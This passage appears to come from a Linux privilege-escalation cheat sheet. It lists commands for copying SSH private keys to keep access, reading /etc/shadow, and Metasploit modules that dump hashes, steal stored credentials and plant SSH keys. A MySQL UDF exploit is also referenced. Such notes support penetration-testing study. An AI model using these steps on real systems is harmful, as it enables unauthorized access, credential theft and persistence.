 If we can access the database as root user without a password, we can use raptor_udf2.c located in the folder /home/user/tools/mysql-udf 

### SSH Keys
```
ls -la /.ssh
```
In this folder we can find ssh.key useful to obtain persistence via ssh. We can copy all its content on the attacker machine and use it to connect to the target via ssh certificate.
This certificate might request a password. If we don't have it, we can try to decrypt the hash with Hashcat.
To use the key we need to change the privileges.
```
chmod 600 root_key
```
or
```
chmod 400 root_key
```
Then
```
ssh -i root_key root@10.10.10.10
```

### Kernel Exploit and others Exploit
```
/home/user/tools/privesc-scripts
```
### Linux password hashes dumping

All system passwords are stored in the file /etc/shadow usually accessibile only by root user.
```
$1 - MD5
$2 - Blowfish
$5 - SHA-256
$6 - SHA-512
```
#### Metasploit (Meterpreter)
```
shell
cat /etc/shadow
```
#### Metasploit
```
search hashdump
use post/linux/gather/hasdump
set options
run
use auxiliary/analyze/crack_linux
run
```
#### Metaslpoit other useful modules
```
post/multi/gather/ssh_creds
post/multi/gather/docker_creds
post/linux/gather/hashdump
post/linux/gather/ecryptfs_creds
post/linux/gather/enum_psk
post/linux/gather/enum_xchat
post/linux/gather/phpmyadmin_credsteal
post/linux/gather/pptpd_chap_secrets
post/linux/manage/sshkey_persistence
```
### Linux cracking password hashes
